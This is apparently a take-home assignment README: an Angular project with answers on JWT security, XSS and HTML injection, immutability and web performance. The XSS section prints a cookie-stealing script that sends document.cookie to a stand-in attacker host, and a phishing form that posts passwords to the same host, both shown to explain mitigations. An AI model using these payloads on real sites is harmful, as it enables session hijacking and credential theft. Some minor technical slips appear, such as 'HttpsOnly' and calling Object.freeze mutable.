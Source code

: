 This project was generated with [Angular CLI](https://github.com/angular/angular-cli) version 17.3.6.

## How to setup

Run `npm install` and everything is fine.


## Run the app

Run `ng serve` for a dev server. Navigate to `http://localhost:4200/`. The application will automatically reload if you change any of the source files.

## Unit tests

The core functionality and the behaviors are well tested.

# Answers to the questions

## Question 1: Why is JWT is (or isn't) safe to use this? 

JWT can be safe or unsafe depends on the way we use it. We should not send sensitive information in JWT unless it's encrypted.

JWT is a way of securely transmitting data between 2 parties as JSON object, because it's signed and we can make sure that the senders are who they say they are. It's stateless and self contained. Most common scenario for JWT is to authorize users and allow access routes, services etc. Server can identify who the user is just by decoding the JWT token, which prevents the overhead of reading the user information from database each time a request comes from the client.

Why it is safe?
The only security we get with JWT is the ability to verify whether the token is tampered or not and modified any data in it. That's the only safety we get. If the token is tampered the signature verification fails and server can refuse the request in that case. So we can confirm the senders are the one who they say they are.

It's always safe to keep the JWT in cookie, because server can use HttpsOnly to prevent JavaScript accessing this particular cookie, which prevent XXS attacks. But on the downside the client cannot read the JWT token which sometimes will be needed in the client.

We can set an expiry to the JWT, which server can check and reject the request. Then client has to reauthenticate probably. But sometimes the server can automatically re-issue a new token by refreshing it.

The payload in the JWT token is exposed to other parties, even though it's not possible to change it. This means we must not add sensitive information to the token. We must only keep non-sensitive information such as user claims, user roles, user email, name and etc. Because any man-in-the middle who gets to intercept the data packets going through the internet can read the contents of the JWT easily.

## Question 2: Messages sent from one user to another, can contain HTML, write two attack vectors and mitigation.

### Attack vector 1: Cross Site Scripting (XSS)
This is when an attacker trying to execute a script in victim’s browser. And steal sensitive information stored in the browser like user session token and can lead to session hijacking. XSS attacks can take place anywhere a web app outputs/renders a user input in the web app without validating or encoding it.

Here is a simple example, assume that the bad player send a message that contains something like below:

```html
Hellow..
<script>
  document.location = "http://attackers-website.com/steal.php?cookie=" + document.cookie;
</script>
```

When the victim receives this message and the application renders it in the victim's page, the script will be immediately executed and redirect the victim to the specified website with the cookie in the query parameter. And the attacker can use this cookie to hijack the victim's session.

### Attack vector 1 mitigation:
We can do multiple things to mitigate the risk of session hijacking. These are just few steps to secure, but always we have to follow security practices and audits.

#### Step 1
If you want to render a user's message in another user's browser, use the safe api in JS, which is element.textContent than element.innerHTML. This way the browser does not parse it as HTML.

#### Step 2
Make sure to store the identity/session related token in HttpOnly cookies. These type of cookies cannot be accesses by the JavaScript and it will be sent with the requests only to the origin domain and nowhere else.

#### Step 3
Content Security Policy (CSP)
This is also an added layer of security to prevent XSS. These are special headers are returned from the server that kind of whitelists the domains that the browser trusts when running the application. The browser should be compatible with CSP which is the case in almost every browser now. 
Now the browser will only execute scripts from those allowed domains, all other scripts including inline scripts like in the above mentioned example will be blocked, and event-handling HTML attributes (onclick, onerror) will also be blocked by the browser.

Alternatively, the <meta> element can also be used in the root html file to configure CSP, for example:
```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; img-src https://*; child-src 'none';" />
```

#### Step 4
Implement proper input sanitization, we must sanitize all user submitted HTML content and remove or disable any executable scripts. This can be done by removing elements like <script>, <img>, and all known event handlers such as "onerror", "onload", "onclick", or escaping them so they are displayed as plain text when rendered.
As for the above example, the sanitisation might include converting the above element to HTML character entities like below:

```html
  Hello..
  &lt;script&gt;
    document.location = &quot;http://attackers-website.com/steal.php?cookie=&quot; + document.cookie;
  &lt;/script&gt;
```

### Attack vector 2: Html Injection
This is similar to XSS, but malicious html elements are sent in the message instead of scripts, that can alter the page to create forms to phish passwords or any other sensitive information of the user, or include malicious links, check the below example:

```html
<p>Please update your password right now to prevent getting backed:</p>
<form action="http://attackers-website.com" method="POST">
    Current Password: <input type="password" name="password"/>
    New Password: <input type="password" name="password"/>
    <input type="submit" value="Update"/>
</form>
```

This prompts user to enter the current password, and when clicked Update button, the password it will be sent to attacker's website.

### Attack vector 2 mitigation:

#### Step 1: Use the safe api
Use the safe api which is element.textContent than element.innerHTML for showing the user input in the browser.
Implement input validations:
Validate if the user input is in the expected shape and meets certain criteria.

#### Step 2: Sanitize user input: 
Done by removing or replacing characters that have special meaning in HTML

#### Step 3: Implement output encoding: 
In addition to above, we can encode user input by converting the special characters to HTML char entities.

## Question 3: Explain the difference between mutable and immutable objects. Examples, pros and cons, how to achieve immutability.

### Difference between immutable and mutable objects.
Mutable objects are those state or value can be changed after created. 
Immutable objects cannot be changed once they are created. Only new objects can be created with new memory reference.

### Examples of immutable objects in JS
strings, numbers, booleans immutable in JavaScript

### Pros and cons
Pros: 
- Immutable objects are predictable as their state never change. Avoids unintended side effects when it flows through the app and shared among many components. 
- Concurrent safe: Safe to use in a concurrent environment as they don’t need locks and no fear of race conditions. Easy for atomic operations.
- Undo/Redo: Easy to maintain a history of states with immutable objects, an example if React dev tool's time travel feature, that we can see all changes to an object as history.
- Efficient change detection in UI frameworks: Immutable objects are crucial in front end applications where the DOM is reconciliated, it's easy to decide on re-rendering if it's a new reference, otherwise we have to deep compare objects. 

Cons:
- Memory overhead: Can lead to increased memory because every change require creating new objects.
- Garbage collector works heavy: Frequent creation of new objects increases pressure on the garbage collector, which can lead to performance issues.
- Performance: May cause performance overhead due to the need for creating new objects instead of modifying existing ones.
- Code complexity and readability

### How to implement immutability
- We can use Object.freeze method to create a mutable object natively in JS. Objects created by this prevents adding new properties, existing properties from being removed. However, it only works shallowly.

- Use immutable.js to create many types of immutable data structures. 

- In JS we have operations that do not modify the original data but instead return new data. Ex: map(), filter(), and reduce() are immutable operations.

## Question 4: If you would have to speed up the loading of a web-application, how would you do that?

### Optimize and lazy load modules
Splitting the web application into smaller modules can drastically reduce the initial load time. When modules are lazy loaded, it only downloads the code necessary for the initial view, loading other features on demand.

### Optimize assets by compressing them
Heavy high resolution images, scripts and css styles can really slowdown the application. Compress them and minify them. Use WebP images which are smaller in size but high quality.

### SSR - Server side rendering
This will load the web app very faster by quickly displaying a fully rendered page to the user, which is also effective for SEO and the performance of the first DOM paint.

### Lazy load images and Iframes
Render the view first and then load expensive images.

### Prioritize visible content and limit https request on landing page
Only fetch absolutely required data to show the visible content. Then we can lazy load any additional data. In this way the user get to see the page soon.

### Implement caching and CDN
Consider caching the content in the browser that are needed for the landing page if they are not rapidly changing. Use CDN can drastically improve performance, it will cache cache static assets in multiple locations and deliver the content to the user from the closest location. 

## Question 4: Choices between own hardware and company supplied OS vs Standard hardware with own choice of software.

I like to choose my own hardware with own software :D But anyway I believe in a company like Zivver, which specializes in email encryption, security is likely a top priority. Therefore I guess the employees are given machines with special OS, and that maybe crucial to ensure all security protocols and stands are applied. 